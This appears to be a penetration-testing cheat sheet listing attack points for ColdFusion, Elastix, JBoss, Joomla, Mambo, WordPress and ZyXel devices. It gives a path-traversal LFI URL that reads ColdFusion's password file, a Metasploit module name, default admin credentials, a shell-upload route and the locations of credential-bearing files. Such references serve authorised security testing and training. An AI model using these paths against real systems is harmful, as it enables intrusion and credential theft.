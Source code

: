 - Adobe Cold Fusion

    - `/CFIDE/adminapi/base.cfc?wsdl`

    - `exploit/windows/http/coldfusion_fckeditor`

    - LFI: `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

- Elastix

    -  default login are `admin:admin` at `/vtigercrm/`

    - able to upload shell in profile-photo

    - Examine `httpd.conf/` windows config files

- JBoss

    - JMX Console `http://IP:8080/jmxconcole/`

    - War File

- Joomla

    - configuration.php

    - diagnostics.php

    - joomla.inc.php

    - config.inc.php

- Mambo

    - configuration.php    

    - config.inc.php

- Wordpress
    
    - setup-config.php    

    - wp-config.php

- ZyXel

    - /WAN.html (contains PPPoE ISP password)

    - /WLAN_General.html and /WLAN.html (contains WEP key)

    - /rpDyDNS.html (contains DDNS credentials)

    - /Firewall_DefPolicy.html (Firewall)

    - /CF_Keyword.html (Content Filter)

    - /RemMagWWW.html (Remote MGMT)

    - /rpSysAdmin.html (System)

    - /LAN_IP.html (LAN)

    - /NAT_General.html (NAT)
